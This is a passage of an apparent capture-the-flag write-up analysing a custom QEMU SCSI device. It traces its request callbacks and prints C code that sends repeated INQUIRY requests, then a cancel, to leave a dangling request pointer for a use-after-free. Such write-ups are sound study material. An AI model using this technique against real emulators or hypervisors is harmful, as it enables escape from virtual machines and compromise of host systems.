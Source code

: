 Now we need to understand how all these qemu functions and callbacks interact:
* `scsi_req_new` simply allocates the structure, parses the command, and selects the appropriate ops
* `scsi_req_enqueue` is essentially `return req->ops->send_command()` which is in this case...
    * `scsi_disk_emulate_command` which calls...
        * `scsi_disk_emulate_inquiry` which returns nonzero (legal request) if we meet the [two checks here](https://github.com/qemu/qemu/blob/68f1b569dccdf1bf2935d4175fffe84dae6997fc/hw/scsi/scsi-disk.c#L809) (lines 809 and 814)
    * if `scsi_disk_emulate_inquiry` returned nonzero, also returns nonzero, which for the top-level `ctf_process_req` goes on to call...
* `scsi_req_continue` calls `req->ops->read_data()` which is...
    * `scsi_disk_emulate_read_data` calls `scsi_req_data()`...
        * `scsi_req_data` calls `req->bus->info->transfer_data()`...
            * `ctf_transfer_data` calls `ctf_dma_write()`
            * if `ctf_dma_write` returns nonzero, calls `scsi_req_continue`
                * wait what??? o.0
                * this time `scsi_disk_emulate_read_data` calls `scsi_req_complete` instead
                    * which calls `req->bus->info->complete()` which is `ctf_request_complete` (which unrefs and zeros out `state->cur_req`)

It will help to know what `ctf_dma_write` returns, since that determines if `scsi_req_continue` is called again and `ctf_request_complete` thereafter:
```c
int ctf_dma_write(CTFState* state, char* buf, int len) {
    if (state->dma_buf) {
        ...
        ret = 0;
    }
    else {
        state->dma_buf = malloc(len);
        if (state->dma_buf) {
            ...
            state->state |= ST_DATA_WRITTEN_TO_DMA;
            ret = 1;
        }
        else
            ret = 0;
    }
    return ret;
}
```
For the first request, this will take the branch that `malloc`s and returns 1, meaning `ctf_transfer_data` will call `scsi_req_continue` and `ctf_request_complete` (nulling out `cur_req`).  

However if we send a 2nd identical request, `ctf_dma_write` will return 0, meaning `ctf_request_complete` will not be called.
This means `state->cur_req` won't be zeroed out, and we'll be able to cancel it to free it (by sending a subsequent request with no matching device).

```c
struct req_head* req = kzalloc(sizeof(struct req_head)+6, GFP_KERNEL);
req->buf_len = 6; // INQUIRY has length 6
req->data[0] = 0x12; // INQUIRY request
req->data[1] = 0x40; // data[1] and data[2] make it so scsi_disk_emulate_inquiry
req->data[2] = 0;    // (called from scsi_disk_emulate_command) doesnt fail and return -1
req->data[3] = 0x17; // xfer is 16bit from data[3:4], will be 0x1734
req->data[4] = 0x34; // (determines how much data transferred/malloced)
req->data[5] = 0x51; // last byte is...?? doesnt seem used no idea dont care
auth();
send_req(req); // first request completes
send_req(req); // this one doesn't complete

req->target_bus = 17; // no matching device
send_req(req); // cancels previous but doesnt get enqueued, cur_req dangling to previous request
```
